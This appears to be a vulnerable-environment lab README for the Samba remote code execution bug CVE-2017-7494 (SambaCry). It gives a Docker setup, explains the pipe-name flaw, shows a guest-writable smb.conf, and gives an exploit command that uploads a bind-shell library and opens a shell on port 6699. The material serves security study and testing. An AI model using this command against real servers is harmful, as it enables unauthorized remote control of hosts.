


# Samba Authenticated RCE (CVE-2017-7494, Aka SambaCry)

[中文版本(Chinese version)](README.zh-cn.md)

Samba is the standard Windows interoperability suite of programs for Linux and Unix, it provides secure, stable and fast file and print services for all clients using the SMB/CIFS protocol.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 that is vulnerable to a remote code execution vulnerability named **SambaCry**. CVE-2017–7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.

## Environment Setup

Execute following commands to start a Samba server 4.6.3:

```
docker-compose up -d
```

## Principle

Reference to [SambaCry RCE Exploit](https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c):

> Microsoft Remote Procedure Call (RPC) is a powerful technology for creating distributed client/server programs. RPC is an interprocess communication technique that allows client and server software to communicate.
>
> MSRPC protocol allows to connect to a named pipe from remote destination. When trying to open a pipe using MSRPC on Samba, the server verifies the validity of the pipe name using the internal function `is_known_pipename()`.
>
> An external RPC server can be set using the 'rpc_server' variable inside smb.conf and then it will handle the pipe request.
>
> The function `is_known_pipename()` doesn’t check that the pipe is valid, this allows to use '/' to insert a full path of an arbitrary library.

The exploitation requirements:

- An anonymous writeable server or an authenticated Samba account
- A known path of the writeable sharing directory

See also:

 - https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
 - https://github.com/opsxcq/exploit-CVE-2017-7494
 - http://bobao.360.cn/learning/detail/3900.html

## Exploit

Samba config ( you can find [here](smb.conf) ) of our target server:

```
[global]
    map to guest = Bad User
    server string = Samba Server Version %v
    guest account = nobody

[myshare]
    path = /home/share
    read only = no
    guest ok = yes
    guest only = yes
```

Use `smbclient` to test connecting:

```
smbclient //your-ip/myshare -N
```



If you got connection error, please check your network, especially port 445.

Using <https://github.com/opsxcq/exploit-CVE-2017-7494> to exploit the server:

```
./exploit.py -t your-ip -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
```

Successful execute commands:



Please note that, metasploit's `exploit/linux/samba/is_known_pipename` is tested failed since XX(I don't know) version, and I am really sure that it works on Jun 2017.
